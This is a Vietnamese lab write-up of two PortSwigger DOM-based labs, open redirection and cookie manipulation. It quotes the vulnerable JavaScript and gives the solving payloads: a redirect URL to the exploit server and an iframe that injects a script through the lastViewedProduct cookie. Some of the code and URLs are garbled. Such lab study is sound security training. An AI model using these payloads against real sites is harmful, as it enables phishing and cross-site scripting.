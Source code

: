 ![img](https://github.com/datnlq/Source/blob/main/DOM_based/image/DOMXSS_Json_solve.jpg?raw=true)

### Lab: DOM-based open redirection

Bài lab mô tả rằng blog này có chứa DOM-based open-redirection(lỗ hổng chuyển hướng), và dể khai thác thành công thì hãy chuyển hướng về server exploit.

Chúng ta kiểm tra source code và phát hiện đây chính là lỗi mà lab nhắc đến

![img](https://github.com/datnlq/Source/blob/main/DOM_based/image/DOMbased_redirection_source.jpg?raw=true)

```
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); 
if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

Chức năng của đoạn code này là khi chúng ta truy cập 1 bài viết nào sẽ có đường link dẫn chúng ta quay về trang chủ bằng biến url 
Điều đó làm chúng ta có payload sau:
```
![img](https://ac9e1f1e1e10941180196da900770014.web-security-academy.net/postId=4&
url=![img](https://exploit-ac5f1f7c1ea294d180d16d44012300af.web-security-academy.net/
```
Khi load đường link này chúng ta có thể hoàn thành bài lab.

![img](https://github.com/datnlq/Source/blob/main/DOM_based/image/DOMbased_redirection_solve.jpg?raw=true)

### Lab: DOM-based cookie manipulation

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a 
different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages.

Bài lab mô tả rằng lỗi thao tác DOM-based client-side cookie này có trên web. Để hoàn thành bài lab, chúng ta phải inject 1 cookie sẽ gây ra XSS trên một trang khác và gọi hàm print ().
Và chúng ta cần sự hỗ trợ của của exploit server.

![img](https://github.com/datnlq/Source/blob/main/DOM_based/image/DOMbased_manipulation_website.jpg?raw=true)

![img](https://github.com/datnlq/Source/blob/main/DOM_based/image/DOMbased_manipulation_source.jpg?raw=true)


```
document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
```
Dựa vào đoạn source code trên chúng ta nhận thấy trang web phản ánh các giá trị từ lastViewedProduct mà không mã hóa HTML một cách không an toàn, kẻ tấn công có thể sử dụng các kỹ thuật thao túng lastViewedProduct để exploit lỗ hổng này.

```
<iframe src="![img](https://your-lab-id.web-security-academy.net/product?productId=1&'><script>print()</script>"
onload="if(!window.x)this.src='![img](https://your-lab-id.web-security-academy.net';window.x=1;">
``` 
![img](https://github.com/datnlq/Source/blob/main/DOM_based/image/DOMbased_manipulation_exploitserver.jpg?raw=true)
